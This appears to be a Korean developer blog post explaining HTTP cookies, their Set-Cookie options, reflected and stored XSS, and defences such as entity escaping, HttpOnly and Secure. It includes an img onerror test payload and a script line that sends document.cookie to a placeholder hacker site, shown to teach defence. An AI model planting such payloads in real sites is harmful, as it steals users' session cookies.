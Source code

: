 ```yaml
---
date: '2023-09-24'
title: '쿠키 도둑 잡아라!'
category: 'computer science'
summary: '내가 만든 쿠키, 너를 위해 구운 거 아닌데..'
thumbnail: './image/cookie-thumbnail.jpg'
tags: ['# Web', '# HTTP', '# cookie', '# XSS']
---
```


여러분은 쿠키에 대해서 들어보신 적이 있나요? 혹시 이렇게 생긴 음식인가요? 🍪
만약 그렇다면, 오늘은 다른 쿠키에 대해서 알아보도록 하겠습니다. 여러분도 웹사이트를 이용하다가 쿠키를 이용해보신 경험이 있을 겁니다. 아래 사진을 볼까요?

<figure>
  <img src="./image/stackoverflow-cookie.png" alt="stackoverflow-cookie"/>
  <figcaption figcaption>스택오버플로우의 쿠키 수집 허용 팝업</figcaption>
</figure>

[스택오버플로우](https://stackoverflow.com/)에 접속하면 볼 수 있는 팝업입니다. '모든 쿠키 허용' 버튼을 클릭하면 우리 기기의 쿠키를 저장하고, 자사 쿠키 정책에 따라 정보를 공개할 수 있다고 하네요. 그렇다면 쿠키란, 대체 무엇일까요?

## TL;DR

> 1. 쿠키는 HTTP 헤더를 통해 서버와 클라이언트 간에 주고 받는 데이터입니다.
> 2. XSS 공격을 통해 쿠키를 탈취당할 수 있습니다.
> 3. 쿠키 탈취를 방지하기 위해 HttpOnly, Secure 등의 옵션을 이용할 수 있습니다.
> 4. 민감한 정보를 포함하지 않는다면 쿠키 사용을 고려할 수 있습니다.

## HTTP

쿠키를 알기 위해선 먼저 HTTP에 대해서 알아야 합니다. HTTP는 **HyperText Transper Protocol**의 약어로, 간단하게 말해서 HTML 문서와 같은 리소스들을 가져올 수 있도록 해주는 일종의 규약입니다. 웹에서 이루어지는 모든 데이터 교환의 기초이고, 클라이언트-서버 프로토콜이기도 합니다. 결국 우리는 HTTP를 통해 필요한 정보를 서버에 요청하고, 마찬가지로 HTTP를 통해 요청에 대한 응답을 받는 것이죠.

HTTP는 상태가 없습니다. 이 말은, 서버가 HTTP 요청을 받았을 때 어떤 브라우저에서 보낸 요청인지 알 수 없고, 각 요청은 독립적이라는 것을 뜻합니다. 그렇다면 로그인, 사용자 지정 테마, 장바구니 등의 정보를 기록하기 위해선 어떻게 해야 할까요? 이를 해결하기 위해 등장한 것이 바로 쿠키입니다.

## 쿠키

자, 이제 쿠키에 대해서 자세히 알아보도록 하겠습니다.

쿠키는 쉽게 말해서 프론트엔드에서 저장하고 관리하는 데이터입니다. 서버에서 `Set-Cookie`를 Response Header에 담아 내려주면 클라이언트는 이를 자동으로 저장합니다. 경우에 따라서는 쿠키 데이터를 자체적으로 조작할 수도 있고, 수명을 정할 수도 있습니다.

### 쿠키의 작동 방식

<figure>
  <img src="./image/cookie-flow.png" alt="쿠키의 작동 방식"/>
  <figcaption figcaption>쿠키의 작동 방식</figcaption>
</figure>

쿠키는 위와 같은 흐름으로 작동합니다. 브라우저가 서버에 요청을 보내면 서버는 HTTP 헤더에 쿠키를 담아서 응답합니다. 브라우저는 이를 자동으로 저장하고, 다음 요청을 보낼 때 HTTP 헤더에 저장해둔 쿠키를 담아서 전달합니다. 서버는 쿠키를 읽고 유저 정보를 확인 후 적절한 응답을 합니다. 만약 서버에서 쿠키에 업데이트가 발생한다면, 응답할 때 업데이트된 쿠키를 다시 한번 넘겨줍니다.

### Set-Cookie

쿠키는 기본적으로 서버에서 생성할 수 있고, 앞서 말씀드린 것과 같이 **Set-Cookie**라는 옵션을 통해 쿠키 정보를 설정할 수 있습니다. Set-Cookie는 Key=Value 형태로 되어 있고, 브라우저는 이 값을 파싱한 뒤 알아서 쿠키에 데이터를 저장합니다. 쿠키에는 다음과 같은 옵션을 설정할 수 있습니다.

- **Expires**: 쿠키 만료 날짜
- **Secure**: HTTPS에서만 쿠키를 전송
- **HttpOnly**: Javascript 코드를 통한 쿠키 접근을 방지 (이를 통해 XSS 공격에 대응 가능)
- **Max-Age**: 쿠키 수명 설정 (이 때, Expires는 무시)
- **Domain**: 도메인이 일치하는 요청만 쿠키 전송
- **Path**: 경로가 일치하는 요청만 쿠키 전송

<br />

참고로 하나의 Set-Cookie에는 하나의 쿠키만을 담을 수 있기 때문에 응답 헤더는 다음과 같은 형태가 됩니다.

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: choco_cookie=choco; Max-Age=0; Path=<경로>
Set-Cookie: white_cookie=white
```

반면, 클라이언트는 쿠키를 전달할 때 세미 콜론(;)으로 여러 개의 쿠키를 구분하여 나열할 수 있습니다.

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: choco_cookie=choco; white_cookie=white;
```

### 쿠키의 보안성

쿠키는 브라우저에 저장되기 때문에 다음과 같은 문제를 수반합니다.

1. 쉽게 잃어버릴 수 있다.
2. 쉽게 변경될 수 있다.
3. 쉽게 도난당할 수 있다.

브라우저의 개발자 도구를 이용하면 쿠키를 쉽게 확인할 수 있고, 삭제할 수 있습니다. 또 누군가가 내가 전송한 HTTP 요청을 가로챈다면, 요청 헤더에 포함된 민감한 쿠키 정보를 열람할 수 있을 것입니다. 심지어 쿠키는 브라우저에 저장되기 때문에 자바스크립트 코드로 접근할 수도 있습니다. 이는 곧 심각한 문제로 이어지게 될 것입니다.

## XSS

이런 쿠키의 취약점을 활용한 공격 방법에 대해 알아보겠습니다.

XSS는 **Cross Site Scripting**의 약자로, 줄이면 CSS가 되는 것이 맞겠으나 CSS는 이미 Cascading Style Sheets의 어로 사용되고 있기 때문에 **XSS**라고 합니다.
XSS는 권한이 없는 사용자가 메일이나, Input, 게시판 등에 자바스크립트 등의 스크립트 코드를 삽입하여 개발자가 고려하지 않은 기능을 동작하도록 하는 공격 방법입니다.

XSS는 크게 Reflected-XSS, Stored-XSS 두 종류로 나뉩니다.

### Reflected XSS

Reflected XSS는 스크립트 코드를 입력하자마자 결과가 발생는 공격법을 말합니다. 웹 서버에 스크립트를 남기지 않는다는 것이 특징입니다. 단적인 예로 다음과 같은 상황을 가정할 수 있습니다.

`input` 창을 통해 이름을 입력 받고, 버튼을 클릭하면 이를 화면에 띄워주는 사이트가 있습니다.

<figure>
  <img src="./image/xss-input-test.png" alt="input 예시"/>
</figure>

이름을 입력하고 제출 버튼을 클릭하면 정상적으로 작동하는 것을 확인할 수 있습니다. 그럼, 다음과 같은 스크립트 코드를 입력하면 어떻게 될까요?

`<img src="#" onerror="alert('버그 발생! 🐛')" />`

<figure>
  <img src="./image/xss-hijacking.png" alt="스크립트 코드를 통한 XSS 공격"/>
</figure>

이렇게 `alert` 창이 실행됩니다! 지금의 경우에는 스크립트 코드에 악의적인 의도가 없어 보이지만, 공격자는 어떤 의도를 품고 있을지 모릅니다. 쿠키는 브라우저에 저장되어 있기 때문에 `document.cookie`와 같은 자바스크립트 코드로 접근할 수 있습니다. 만약 `alert` 함수 대신 `document.cookie`가 입력되어 있었다면 어떻게 될까요? 사용자의 정보가 노출되어 큰 문제가 발생할 수 있습니다. 상상만 해도 끔찍하네요😥

### Stored XSS

Stored XSS는 가장 일반적인 XSS 공격 유형으로, 스크립트 코드를 입력하고 서버에 저장되도록 합니다. 그래서 추후 사용자가 게시물을 열람할 때 공격자가 입력해놓은 스크립트 코드가 실행되어 사용자의 민감 정보가 유출되거나 기획된 공격에 노출될 수 있습니다. Reflected XSS와는 달리 서버에 스크립트를 남기기 때문에 다수의 사용자들에게 지속적으로 공격을 가할 수 있습니다.

Stored XSS는 방명록이나 게시판과 같이 기록을 남기는 공간에서 공격할 수 있습니다.

### XSS 대응 방안

1. **입력 값 제한**

   기본적으로 스크립트 코드를 삽입하지 못하도록 해야 합니다. HTML5에서는 이런 문제를 해결하기 위해 innerHTML을 통해 주입한 스크립트는 실행되지 않습니다. 하지만 `onerror` 이벤트 속성을 통해 주입한 스크립트는 여전히 작동합니다.

2. **입력 값 치환**

   `<`, `>` 등의 태그 문자를 [HTML Entity](http://www.tcpschool.com/html/html_text_entities)로 필터링 할 수 있습니다. HTML Entity는 대부분의 인터프리터에서 특수한 의미를 가지지 않기 때문에 태그로 인식되지 않습니다.

3. **httpOnly 옵션 사용**

   공격자는 다음과 같은 코드를 공개 게시판에 작성하여 사용자의 쿠키를 가로채려 시도합니다.

   ```jsx
   <script> location.href = '해커사이트주소?cookie=' + document.cookie </script>
   ```

   해당 게시물을 열람한 사용자들은 해커 사이트로 이동하여 쿠키 정보를 노출하게 됩니다. `httpOnly` 옵션을 활용하면 브라우저에서 쿠키에 접근하는 것을 방지할 수 있습니다. 브라우저에서는 일반적으로 쿠키에 접근할 일이 크게 없기 때문에 `httpOnly` 옵션은 기본적으로 적용하는 것이 좋습니다. 참고로 `httpOnly` 옵션은 브라우저에서 설정할 수 없고, 항상 서버에서만 설정할 수 있는 옵션입니다.

   ```java
   Set-Cookie: 쿠키명=쿠키값; path=/; HttpOnly
   ```

4. **Secure 옵션 사용**

   이제 `httpOnly` 옵션을 통해 브라우저에서 쿠키에 접근하는 것은 방지할 수 있습니다. 하지만 쿠키는 HTTP 헤더를 통해 전송되고, 와이어 샤크 등과 같은 프로그램으로 네트워크 감청을 할 수 있다는 것은 널리 알려진 사실입니다. 이러한 통신 상 정보 유출을 방지하기 위해 HTTPS 프로토콜을 사용하여 데이터를 암호화할 수 있습니다. 그리고 `Secure` 옵션은 HTTPS 상에서 암호화된 요청일 경우에만 쿠키를 전송하도록 합니다.

## 맺음

최근에는 쿠키의 취약점을 해결하기 위해 쿠키를 서버에서 관리하는 **세션 방식**이나, 암호화된 토큰을 이용하는 **JWT 방식**을 사용하기도 합니다. 그렇다고 해서 쿠키가 전혀 사용되지 않는 것은 아닙니다. 사용자 인증과 같은 민감 정보는 세션, 혹은 JWT 토큰으로 관리하고, 개인 설정과 같은 정보는 쿠키로 이용하는 것이 도움이 될 수 있습니다. 이처럼, 상황에 맞게 적절한 방식을 고민하고 사용하는 것이 중요하겠습니다. 이 글이 쿠키 사용을 고려하고 있는 분들에게 도움이 되면 좋겠습니다🙏
